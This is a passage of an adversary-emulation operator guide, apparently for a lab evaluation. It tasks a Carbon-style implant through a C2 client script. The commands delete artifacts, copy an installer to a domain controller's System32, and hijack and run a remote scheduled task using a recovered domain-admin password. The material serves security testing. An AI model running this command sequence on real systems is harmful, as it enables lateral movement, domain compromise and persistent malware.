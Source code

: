 * Wait 1 minute and then task CARBON-DLL to remove the password spray script.

```bash
./evalsC2client.py --set-task 9b5ef515  '{"id": 2, "cmd": "del /Q C:\\Windows\\Temp\\winsas64.bat"}'
```

* Wait 1 minute and then task CARBON-DLL to download a second version of the CARBON-DLL installer and move it to the `System32` folder
on the DC via the mounted drive.

```bash
./evalsC2client.py --set-task 9b5ef515 '{"id": 3, "payload": "carbon_installer_2.exe", "payload_dest": "C:\\Windows\\Temp\\wmimetricsq.exe", "cmd": "move C:\\Windows\\Temp\\wmimetricsq.exe \\\\bannik\\C$\\Windows\\System32"}'
```

* Wait 1 minute and then task CARBON-DLL to enumerate remote scheduled tasks on
the domain controller, using the discovered password for the domain admin
`Frieda`

```bash
./evalsC2client.py --set-task 9b5ef515 '{"id": 4, "cmd": "schtasks /query /S bannik /U skt\\Frieda /P Password3!"}'
```

* :exclamation: Verify that the `Consolidator` task under the `\Microsoft\Windows\Customer
Experience Improvement Program\` task folder appears in the output.

```bash
grep 'Folder: \\Microsoft\\Windows\\Customer Experience Improvement Program' logs.txt -A 5 -i
```

* This should return:
>
* > ```text
    > Folder: \Microsoft\Windows\Customer Experience Improvement Program
    > TaskName                                 Next Run Time          Status         
    > ======================================== ====================== ===============
    > Consolidator                             2/24/2023 12:00:00 AM  Ready          
    > UsbCeip                                  N/A                    Ready      
    >    ```

* Wait 1 minute and then task CARBON-DLL to modify a remote scheduled task using the discovered password for the domain
admin `Frieda` (<https://www.cisa.gov/uscert/ncas/analysis-reports/ar20-303a>).

```bash
./evalsC2client.py --set-task 9b5ef515 '{"id": 5, "cmd": "schtasks /Change /S bannik /U skt\\Frieda /P Password3! /TN \"\\Microsoft\\Windows\\Customer Experience Improvement Program\\Consolidator\" /TR %SystemRoot%\\System32\\wmimetricsq.exe"}'
```

* Wait 1 minute and then task CARBON-DLL to remotely start the modified scheduled task on the domain controller.

```bash
./evalsC2client.py --set-task 9b5ef515 '{"id": 6, "cmd": "schtasks /Run /S bannik /U skt\\Frieda /P Password3! /TN \"\\Microsoft\\Windows\\Customer Experience Improvement Program\\Consolidator\" /I"}'
```
